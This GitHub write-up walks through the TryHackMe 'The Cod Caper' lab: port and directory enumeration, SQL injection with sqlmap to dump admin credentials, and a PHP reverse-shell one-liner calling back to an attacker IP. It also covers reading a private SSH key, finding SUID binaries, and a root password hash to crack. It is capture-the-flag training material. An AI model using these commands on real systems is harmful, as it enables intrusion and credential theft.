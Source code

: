 # TryHackMe-The_Cod_Caper-WriteUp
My solution for the room called "The Cod Craper" in TryHackMe <br>
https://tryhackme.com/room/thecodcaper <br> 
![thm1](https://user-images.githubusercontent.com/67475596/103531558-e71f3400-4e89-11eb-96a5-9e29f9b15173.png) ![thm2](https://user-images.githubusercontent.com/67475596/103531561-e7b7ca80-4e89-11eb-9f11-b9698347ab12.png)
## Host Enumeration 

<p> The first step is to see what ports and services are running on the target machine. 
Recommended Tool - nmap:
Useful flags: -p -sC -A </p>

<p> To answer this questions we need to scan the machine with nmap and analyze the results</p>

```nmap 
nmap -A <IP> -vv
```
![nmap](https://user-images.githubusercontent.com/67475596/103458587-e65f9400-4d09-11eb-85da-2f2e1c717200.png)

We can see that there are two port open, 22 with ssh service and port 80 with http


**Question 1:** How many ports are open on the target machine? <br>
<code> 2 </code>

**Question 2:** What is the http-title of the web server? <br>
<code> Apache2 Ubuntu Default Page: It works </code>

**Question 3:** What version is the ssh service? <br>
<code> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 </code>

**Question 4:** What is the version of the web server? <br>
<code> Apache/2.4.18 </code>

## Web Enumeration 

<p> Since the only services running are SSH and Apache, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.
Recommended tool: gobuster
Useful flags: -x --url --wordlist 
	
Recommended wordlist: big.txt </p>

![default page](https://user-images.githubusercontent.com/67475596/103477313-f9cc3700-4dbd-11eb-877f-d61c426166f8.png)

<p>If we open the ip on a browser we can see that there is the default page of Apache2 Ubuntu <br>
Now let's scan the ip with gobuster for enumerate some directories and files.</p>

```bash 
gobuster dir -u http://IP/ -w big.txt -x .php,.html,.txt
```

![gobuster](https://user-images.githubusercontent.com/67475596/103477366-9262b700-4dbe-11eb-8479-c080708fcaa9.png)

Here we are.. we found the important file !


**Question 1 :** What is the name of the important file on the server? <br>
<code> administrator.php </code>

## Web Exploitation

<p>The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection. <br>

Recommended Tool: sqlmap

Useful Flags: -u --forms --dump -a

On the page IP/administrator.php we have an administrator login 

![login](https://user-images.githubusercontent.com/67475596/103477577-8c6dd580-4dc0-11eb-9179-4bf229f46f7e.png)

Let's try an SQL Injection with sqlmap <br>

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

but first we need to intercept the http request with burpsuite

![request](https://user-images.githubusercontent.com/67475596/103477728-cd1a1e80-4dc1-11eb-81f6-f7f78922c1bb.png)

now save it in a .txt file and then launch sqlmap

```bash
sqlmap -r request.txt -D users --tables
```


![sqlmap 1](https://user-images.githubusercontent.com/67475596/103477764-0c486f80-4dc2-11eb-8381-22f1d908bc69.png)

Mmmh... interesting we found some databases :)

![sqlmap 2](https://user-images.githubusercontent.com/67475596/103477797-592c4600-4dc2-11eb-98a8-ae36a56d3c15.png)

Let's check "users"

```bash
sqlmap -r request.txt -D users -T users --dump
```

![sqlmap 3](https://user-images.githubusercontent.com/67475596/103477822-9a245a80-4dc2-11eb-9629-02cb1b129a2b.png)

Here are the username and password !

![user pass sqlmap](https://user-images.githubusercontent.com/67475596/103477845-d9eb4200-4dc2-11eb-906a-61f035ae8e09.jpg)


**Question 1:** What is the admin username? <br>

**Question 2:** What is the admin password? <br>

**Question 3:** How many forms of SQLI is the form vulnerable to? <br>
<code> 3 </code>

![sql1](https://user-images.githubusercontent.com/67475596/103491639-d9d05e00-4e25-11eb-88be-fbc4db8cef33.png)
![sql2](https://user-images.githubusercontent.com/67475596/103491642-dc32b800-4e25-11eb-88b2-7026454113c4.png)
![sql3](https://user-images.githubusercontent.com/67475596/103491644-dccb4e80-4e25-11eb-8d12-2ab8077ca7ef.png)
</p>

## Command Execution

<p> It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access! </p>

<p> Now we have the credentials found with sqlmap <br>
Let's do the log in </p>

Ouch ... another form <br>
![run_command](https://user-images.githubusercontent.com/67475596/103491811-f8832480-4e26-11eb-99ef-e6f307ee9b77.png)

<p> Now let's try to get a reverse shell with netcat <br>
  but first prepare a php shell

```bash
php -r '$sock=fsockopen("YOUR IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![run command](https://user-images.githubusercontent.com/67475596/103491856-48fa8200-4e27-11eb-8d09-7379187a7886.png)

Don't forget to run netcat on the attacking machine

![run_netcat](https://user-images.githubusercontent.com/67475596/103491944-db028a80-4e27-11eb-9bd4-928918dcc68d.png)
</p>

If everything went well then we are inside the target machine

![netcat](https://user-images.githubusercontent.com/67475596/103492037-93c8c980-4e28-11eb-868b-df6845cd33a9.png)

**Question 1:** How many files are in the current directory? <br>
<code> 3 </code>

**Question 2:** Do I still have an account <br>
<code> yes </code>

**Question 3:** What is my ssh password? <br>
<p> To answer this question I've searched into the machine <br>
the path is the following </p>

> /var/hidden/pass

![pass ssh](https://user-images.githubusercontent.com/67475596/103492201-85c77880-4e29-11eb-9f81-0afbb665caa3.jpg)

## LinEnum

**Question 1:** What is the interesting path of the interesting suid file <br>

<p> My solution: <br>
first connect to the ssh with the ssh key found in </p>

> /home/pingu/.ssh/id_rsa

![ls - a](https://user-images.githubusercontent.com/67475596/103492276-fcfd0c80-4e29-11eb-8fcb-04dd1ae3199c.png)

![Inkedkey rsa_LI](https://user-images.githubusercontent.com/67475596/103492303-33d32280-4e2a-11eb-8cda-955e245bf62b.jpg)

put it in a .txt file and then log to the ssh

```bash
ssh -i ssh_key.txt pingu@IP
```

![ssh](https://user-images.githubusercontent.com/67475596/103492363-afcd6a80-4e2a-11eb-8319-386995457d0d.png)

Now we have to found the path of the suid file 
a SUID is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner.

I've searched on the internet and I found this command that permits to list all binaries with SUID permission.

```bash
find / -perm -u=s -type f 2>/dev/null
```
![suidfiles](https://user-images.githubusercontent.com/67475596/103530465-c7870c00-4e87-11eb-9dba-cd558909834c.png)

## pwndbg

> No answer needed

## Binary-Exploitaion: Manually 

> No answer needed

## Binary Exploitation: The pwntools way

> No answer needed

 ## Finishing the job 
 
 Now that we have the password hashes, we can crack them and get the root password! Recall from the previous outputs that our root password hash is

> $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.

Usage: hashcat {flags} {hashfile} {wordlist}

Hint: the hashcat mode is 1800

Enjoy
    
   
